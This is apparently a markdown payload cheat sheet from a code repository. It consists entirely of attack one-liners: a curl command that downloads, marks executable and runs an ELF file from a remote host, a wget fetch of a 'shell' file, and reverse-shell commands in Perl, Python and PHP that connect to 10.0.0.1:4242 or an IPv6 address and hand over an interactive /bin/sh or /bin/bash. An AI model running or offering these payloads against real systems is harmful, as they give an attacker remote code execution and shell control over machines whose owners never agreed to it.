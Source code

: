 ### curl
```bash
curl -o test.elf https://xxx.com/shell/test.elf && chmod +x test.elf && ./test.elf
```

### wget
```bash
wget http://1.1.1.1/shell
```

### Other
#### perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

#### python

- IPv4
    ```python
    export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```

    ```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
    ```

- IPv6
    ```python
    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
    ```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### php

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```
